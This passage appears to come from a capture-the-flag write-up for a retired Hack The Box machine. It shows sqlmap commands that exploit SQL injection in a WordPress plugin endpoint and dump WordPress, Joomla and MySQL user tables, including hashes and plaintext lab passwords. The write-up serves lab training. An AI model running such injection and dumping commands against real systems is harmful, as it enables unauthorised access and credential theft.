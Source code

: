 and i got there was more than 40 posts, but the page just published 5 posts, i donno how the exact number becase the machine
already retired when i write this, i just think maybe the other post not published or still in draft
and we could seen the draft post using the sql injection on `lcars_db.php` I'll just use Sqlmap for this.

`sqlmap.py -u http://10.10.10.61/wp-conten/plugins/lcars_db.php?query=1 --dbs`

```
available databases [9]:
[*] blah
[*] information_schema
[*] joomla
[*] joomladb
[*] mysql
[*] performance_schema
[*] sys
[*] wordpress
[*] wordpressdb
```
I try to extract all information from this database found
`sqlmap -u http://10.10.10.61/wp-content/plugins/lcars/lcars_db.php?query=1 -D wordpress -T wp_users -C user_login,user_pass,user_email --dump --hex --threads 5`
```
DB:wordpress

Table:wp_users
user : william.riker
pass : $P$BFf47EOgXrJB3ozBRZkjYcleng2Q.2.
email : william.riker@enterprise.htb

Table:wp_posts
I got 1 draft post including password list

Needed somewhere to put some passwords quickly
ZxJyhGem4k338S2Y 
enterprisencc170 
ZD3YxfnSjezg67JZ 
u*Z14ru0p#ttj83zS6

DB: joomladb 
prefix : edz2g

Command : sqlmap -u http://10.10.10.61/wp-content/plugins/lcars/lcars_db.php?query=1 -D joomladb -T edz2g_users -C username,password,email --dump --threads 10
Table : edz2g_users
+-----------------+--------------------------------------------------------------+--------------------------------+
| username | password | email |
+-----------------+--------------------------------------------------------------+--------------------------------+
| geordi.la.forge | $2y$10$cXSgEkNQGBBUneDKXq9gU.8RAf37GyN7JIrPE7us9UBMR9uDDKaWy | geordi.la.forge@enterprise.htb |
| Guinan | $2y$10$90gyQVv7oL6CCN8lF/0LYulrjKRExceg2i0147/Ewpb6tBzHaqL2q | guinan@enterprise.htb |
+-----------------+--------------------------------------------------------------+--------------------------------+

DB: mysql
user: joomladb  |  2eb70fd4eb74f31283541aad4e83ab6e077bc0df MySQL4.1/MySQL5 : joomlapassword!
user: root  | 95b8a7b0a041cf2011bea41db57315c603285253 MySQL4.1/MySQL5 : NCC-1701E
user:wordpressdb | 10c910bc9c2c46140dc275cb69dc6565de125630 MySQL4.1/MySQL5 : passwordwordpress
```
